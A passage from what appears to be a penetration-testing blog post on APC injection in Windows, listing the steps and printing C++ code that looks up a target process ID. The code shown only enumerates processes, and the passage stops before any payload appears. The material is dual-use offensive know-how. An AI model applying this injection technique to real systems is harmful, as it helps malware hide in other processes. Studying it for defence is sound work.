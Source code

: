 - Write payload in the allocated space.

- Find target process threads

- Queue an APC to all of them to execute our payload

For the first step, we need to find the process id of our target process. For this I used a function from my past [post](/pentest/2021/09/29/findmyprocess.html):    

![APC injection 2](/assets/images/23/2021-11-22_16-00.png){:class="img-responsive"}    

The full source code of this function:
```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }
```